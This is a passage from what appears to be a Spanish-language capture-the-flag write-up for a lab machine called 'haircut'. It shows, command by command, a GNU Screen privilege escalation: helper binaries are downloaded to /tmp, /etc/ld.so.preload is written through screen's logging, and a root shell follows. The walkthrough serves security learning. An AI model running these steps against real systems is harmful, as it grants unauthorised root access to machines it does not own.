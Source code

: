 ```bash
rootshell                                                   100%[=========================================================================================================================================>] 749.00K   205KB/s    in 4.2s    h

2023-05-14 19:30:07 (177 KB/s) - 'rootshell' saved [766976/766976]

www-data@haircut:/tmp$ chmod +x libhax.so 
www-data@haircut:/tmp$ chmod +x rootshell 
www-data@haircut:/tmp$
```
Proseguí a entrar a la ruta /etc para ejecutar los siguientes comandos.
```bash
www-data@haircut:/tmp$ cd /etc
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/etc$ screen -ls
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

www-data@haircut:/etc$
```
Y al ejecutar rootshell tendríamos que escalar a root.
```bash
www-data@haircut:/etc$ /tmp/rootshell 
# whoami
root
#
```
Hemos pwneado la maquina!!!

